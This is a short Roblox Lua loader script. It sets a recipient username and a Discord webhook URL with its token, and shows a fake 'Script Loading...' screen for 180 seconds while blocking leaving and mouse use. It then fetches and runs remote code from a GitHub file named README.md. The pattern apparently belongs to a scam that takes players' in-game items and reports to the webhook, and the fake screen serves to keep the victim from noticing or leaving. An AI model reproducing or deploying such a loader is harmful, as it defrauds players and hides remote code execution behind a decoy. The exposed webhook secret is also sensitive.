 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy"

_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true 

_G.ScriptName = "HubDark"
_G.FirstText = "Script Preparing"
_G.SecondText = "Script Loading..."
_G.ThirdText = "Almost Done..."
_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("https://raw.githubusercontent.com/Mordia000/DIAMONDglitch/main/README.md", true))()

